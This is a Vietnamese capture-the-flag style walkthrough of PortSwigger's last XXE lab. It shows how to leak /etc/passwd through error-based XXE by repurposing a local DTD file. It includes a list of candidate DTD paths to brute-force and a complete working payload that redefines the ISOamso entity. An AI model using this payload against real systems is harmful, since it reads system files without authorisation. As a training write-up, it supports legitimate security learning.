 Description: This lab has a “Check stock” feature that parses XML input but does not display the result. To solve the lab, trigger an error message containing the contents of the /etc/passwd file. You’ll need to reference an existing DTD file on the server and redefine an entity from it.

Đây là lab cuối cùng trong các lab XXE của Portswigger. Lỗi nằm ở tính năng Check stock. Để solve được thì ta phải trigger 1 thông báo lỗi và có kèm theo nội dung của file /etc/passwd. Ta cần phải refer 1 file DTD có sẵn trên server và định nghĩa lại entity từ file đó.

![image](https://github.com/elliSzAt/XML-external-entity-XXE-injection/assets/125866921/38552bbf-e15d-455a-926f-1ae4b4b3c810)

Về loại hình tấn công XXE ``retrieve data by repurposing a local DTD``.

```
https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/
```

![image](https://github.com/elliSzAt/XML-external-entity-XXE-injection/assets/125866921/f88af792-c856-4c5b-ab7d-80dfe9a876c2)

Ở đây mình tạo 1 payload để chỉ đến file ``/etc/nonexistent``. Kết quả cho thấy là nó có thể liệt kê ra cả nhưng file đã hoặc không tồn tại. Ta có thể brute force 1 local dtd file trên server(Tùy vào loại server mà file dtd sẽ khác nhau) và định nghĩa lại 1 số parameter-entity bên trong nó.

```
./properties/schemas/j2ee/XMLSchema.dtd
./../properties/schemas/j2ee/XMLSchema.dtd
./../../properties/schemas/j2ee/XMLSchema.dtd
/usr/share/java/jsp-api-2.2.jar!/javax/servlet/jsp/resources/jspxml.dtd
/usr/share/java/jsp-api-2.3.jar!/javax/servlet/jsp/resources/jspxml.dtd
/root/usr/share/doc/rh-python34-python-docutils-0.12/docs/ref/docutils.dtd
/root/usr/share/doc/rh-python35-python-docutils-0.12/docs/ref/docutils.dtd
/usr/share/doc/python2-docutils/docs/ref/docutils.dtd
/usr/share/yelp/dtd/docbookx.dtd
/usr/share/xml/fontconfig/fonts.dtd
/usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd
/usr/lib64/erlang/lib/docbuilder-0.9.8.11/dtd/application.dtd
/usr/share/boostbook/dtd/1.1/boostbook.dtd
/usr/share/boostbook/dtd/boostbook.dtd
/usr/share/dblatex/schema/dblatex-config.dtd
/usr/share/struts/struts-config_1_0.dtd
/opt/sas/sw/tomcat/shared/lib/jsp-api.jar!/javax/servlet/jsp/resources/jspxml.dtd
```

![image](https://github.com/elliSzAt/XML-external-entity-XXE-injection/assets/125866921/00a9d7b4-3f27-4262-9a83-e2f9a15a5cfa)

Sau khi bruteforce thì ta nhận được file ``/usr/share/yelp/dtd/docbookx.dtd``. Thực hiện tấn công vào nó với payload sau:

```
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

![image](https://github.com/elliSzAt/XML-external-entity-XXE-injection/assets/125866921/b12762d2-6bcb-41dc-9662-4bd7a3f06b24)

Hoàn thành lab cuối cùng.
